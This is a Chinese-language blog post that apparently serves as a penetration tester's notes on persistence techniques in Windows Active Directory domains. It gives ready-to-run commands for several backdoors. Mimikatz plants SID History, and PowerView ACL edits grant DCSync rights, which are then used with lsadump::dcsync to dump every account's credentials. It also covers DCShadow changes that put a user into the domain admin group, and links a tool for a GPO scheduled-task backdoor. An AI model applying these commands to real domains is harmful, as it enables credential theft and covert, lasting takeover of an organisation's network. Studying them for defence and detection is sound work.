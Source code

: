 ```yaml
---
title: "针对域环境的权限维持"
date: 2019-07-22T00:00:00+08:00
draft: false
tags: ['domain']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


域内环境中常用的维持权限的方式.

<!--more-->

## 金银票据

[Golden and Silver Ticket](https://exp10it.cn/golden-and-silver-tickets.html).

## SID History

SID History 为域内用户迁移到新域时针对用户权限的转移而提供的一种手段.

通过 SID History 可让用户拥有不同身份的权限, 在单域中同样有效.

```
mimikatz "privilege::debug" "sid::patch" "sid::add /new:admin-sid /sam:test" "exit"
```

注意要先进行 `sid::patch`, 否则会出现 `ERROR kuhl_m_sid_add;ldap_modify_s 0x32 (50)` 错误.

清除 SID History.

```
mimikatz "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"
```

## ACL 后门

ACL 全称 Access Control List, 即访问控制列表. 故 ACL 后门, 是指针对权限配置缺陷的后门.

### DCSync

ACL 后门的 DCSync 形式.

使用 PowerSploit Dev 分支中的 PowerView.

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test -Rights DCSync
```

这样在任意一台主机上以 test 用户登录都能通过 DCSync 向域控请求账户凭据.

```
mimikatz "lsadump::dcsync /all" "exit"
```

删除 DCSync 后门.

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test -Rights DCSync
```

### GPO

ACL 后门的 GPO 形式.

通过在组策略管理中添加计划任务批量设置后门.

暂且只给出利用工具, 尚未测试成功.

[3gstudent/New-GPOImmediateTask](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1).

## DCShadow

通过伪造 DC 并与正常 DC 同步数据的方式修改账户信息. 需要本地系统及域管理员权限.

无需登录 DC, 且只会留下 Directory Service Access 日志, 缺点是可执行的操作较少.

需要将 mimikatz 提升为 system 权限, 通过 mimidrv.sys 实现.

```
!+
!processtoken
```

修改管理员组.

```
lsadump::dcshadow /object:CN=test,CN=Users,DC=test,DC=com /attribute:primarygroupid /value:512
```

添加 SID History.
```
lsadump::dcshadow /object:CN=test,CN=Users,DC=test,DC=com /attribute:sidhistory /value:admin-sid
```

最后以域管理员权限启动另一个 mimikatz 进程.

```
lsadump::dcshadow /push
```

通过 DCShadow 还能够修改其它信息, 具体请在"属性编辑器"里查询.